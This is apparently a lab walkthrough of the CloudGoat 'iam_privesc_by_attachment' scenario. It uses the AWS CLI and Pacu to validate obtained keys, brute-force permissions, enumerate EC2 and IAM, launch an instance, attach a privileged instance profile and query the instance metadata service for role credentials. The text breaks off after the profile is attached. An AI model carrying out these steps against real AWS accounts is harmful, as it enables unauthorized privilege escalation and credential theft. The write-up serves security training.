




iam_privesc_by_attachment
Once the scenario is creation process completes we are presented with a set of access keys for a user account 'kerrigan'

whoami
First lets make sure the credentials that we have obtained are valid:
aws sts get-caller-identity --profile xxx |jqPerfect, looks like the credentials work. Now, what can they do?
What can I do?
Lets use pacu to brute force some permissions. We can do this by running:
run iam__bruteforce_permissions
Once the command completes we see the output below:
Overall the credentials are fairly limited. But it does look like we have the ability to learn about ec2 instances with the describe command. Lets bounce back to the aws cli and run:
aws ec2 describe-instances |jqWe get an output similar to the one below that shows us details about the instances within the us-east region of this account.
Lets clean this up a little bit just for fun.
aws --profile kerrigan ec2 describe-instances |jq -r '.Reservations[0].Instances[].InstanceId,.Reservations[0].Instances[].SecurityGroups[].GroupName,.Reservations[0].Instances[].NetworkInterfaces[].Association[]'*Note in the command above I set the Reservations to the value in the first index. To see all instances leave the brackets empty '[]'
This cleans up the verbose output and prints the instance id, security groups, and some networking details about the instance

Lets see what else our permissions can do. We'll start with the instance profiles command. According to Pacu we have rights to invoke this command.
aws iam list-instance-profiles |jqLooking at the output below we see a profile with the 'cg-ec2-meek-role' associated with it. The profile has a policy that allows for 'sts:AssumeRole'.

Lets use pacu to see what instances,security groups, vpcs, and subnets exist within the environment:
run ec2__enum --region=us-east-1Looking at the output we can see that there are currently 4 instances in the region as well as additional information that may become useful.

Within Pacu running the 'data' command will dump all of the data from the current session. This will include all of the details we just enumerated about the Ec2's within the account.
Lets head back to the aws cli and run the ec2 describe call again. This time instead of jq we will just print the output to a table.
aws --profile kerrigan ec2 describe-instances --output tableAnd we can see that there is an ec2 and one of the tags is that it is a ’super critical server'

The hard part
Considering everything that we've seen up to this point:
- A critical instance exists
- We can perform several ec2 tasks
- We don't seem to have any other permissions
- We do have some limited iam rights
- There is a ec2 profile that can assume roles
There seems to be some potential for us to create an instance to leverage the assume role policy. Lets use Pacu to see if we have any additional iam permissions that could be of use.
 



In the picture above we can see that the 'mighty' role is a role associated with the ec2 service. This is a role that can be associated with an ec2 profile, and that profile can be associated with an ec2 instance.
Make an Ec2
Lets create our own ec2
First we need a key pair:
aws ec2 create-key-pair --key-name toteslegit --profile kerriganNow lets save that for future use and create a ec2 using that pair:
aws ec2 run-instances --image-id ami-0a313d6098716f372 --count 1 --instance-type t2.micro --security-group-ids sg-082d358f4161c877c --subnet-id subnet-0c9d7451cc4e04e01 --key-name toteslegit --tags Key=name,Value=Toteslegit --profile kerriganAnd this is successful and returns our instance id
"InstanceId": "i-0ecf2a591e0d75d18”Now we can ssh into the box using our key
ssh -i toteslegit ubuntu@Now we can query the meta data service
curl http://169.254.169.254/latest/meta-data/iam/Weird no access keys like last time….ah right no roles have been assigned yet
So lets assign a profile
aws ec2 associate-iam-instance-profile --instance-id i-0ecf2a591e0d75d18 --iam-instance-profile Name=cg-ec2-meek-instance-profile-cgid17lgq8xa81 --profile kerriganAnd now lets ssh in